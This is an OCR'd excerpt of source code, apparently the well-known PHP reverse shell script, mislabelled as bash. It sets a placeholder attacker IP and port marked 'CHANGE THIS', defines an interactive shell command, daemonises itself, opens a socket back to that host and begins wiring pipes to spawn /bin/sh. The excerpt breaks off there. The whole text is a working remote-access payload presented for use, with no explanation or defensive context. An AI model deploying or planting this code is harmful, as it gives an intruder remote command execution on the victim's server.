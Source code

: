 ```bash
$ip = '192.168.1.14';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
```